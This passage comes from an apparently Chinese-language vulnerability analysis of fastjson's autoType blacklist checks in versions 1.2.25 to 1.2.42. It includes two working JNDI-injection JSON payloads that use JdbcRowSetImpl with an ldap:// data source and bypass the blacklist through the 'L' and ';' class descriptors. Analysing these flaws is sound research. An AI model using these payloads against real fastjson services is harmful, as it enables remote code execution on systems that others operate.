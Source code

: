 添加反序列化白名单有3种方法：
1. 使用代码进行添加：`ParserConfig.getGlobalInstance().addAccept(“org.su18.fastjson.,org.javaweb.”)`
2. 加上JVM启动参数：`-Dfastjson.parser.autoTypeAccept=org.su18.fastjson.`
3. 在fastjson.properties中添加：`fastjson.parser.autoTypeAccept=org.su18.fastjson.`

看一下 `checkAutoType()` 的逻辑，如果开启了 autoType，先判断类名是否在白名单中，如果在，就使用 `TypeUtils.loadClass` 加载，然后使用黑名单判断类名的开头，如果匹配就抛出异常。

![](../images/1616462597114.png)

如果没开启 autoType ，则是先使用黑名单匹配，再使用白名单匹配和加载。最后，如果要反序列化的类和黑白名单都未匹配时，只有开启了 autoType 或者 expectClass 不为空也就是指定了 Class 对象时才会调用 `TypeUtils.loadClass` 加载。

![](../images/1616463143551.png)

接着跟一下 `loadClass` ，这个类在加载目标类之前为了兼容带有描述符的类名，使用了递归调用来处理描述符中的 `[`、`L`、`;` 字符。

![](../images/1616463632814.png)

因此就在这个位置出现了逻辑漏洞，攻击者可以使用带有描述符的类绕过黑名单的限制，而在类加载过程中，描述符还会被处理掉。因此，漏洞利用的思路就出来了：需要开启 autoType，使用以上字符来进行黑名单的绕过。

最终的 payload 其实就是在之前的 payload 类名上前后加上`L`和`;`即可：

```json
{
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 3. fastjson-1.2.42

在版本 1.2.42 中，fastjson 继续延续了黑白名单的检测模式，但是将黑名单类从白名单修改为使用 HASH 的方式进行对比，这是为了防止安全研究人员根据黑名单中的类进行反向研究，用来对未更新的历史版本进行攻击。同时，作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复。

> 影响版本：`1.2.25 <= fastjson <= 1.2.42`
> 描述：一点也不坦诚，学学人家 jackson，到现在还是明文黑名单。而且到目前为止很多类已经被撞出来了。

还是关注 `com.alibaba.fastjson.parser.ParserConfig` 这个类，作者将原本的明文黑名单转为使用了 Hash 黑名单，防止安全人员对其研究。
![](../images/1616466267011.png)

并且在 checkAutoType 中加入判断，如果类的第一个字符是 `L` 结尾是 `;`，则使用 substring进行了去除。写判断也不好好写，非要写 hash 。
![](../images/1616466255355.png)

但是这种判断完全是徒劳的，因为在最后处理时是递归处理，因此只要对描述符进行双写即可绕过：

```java
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```
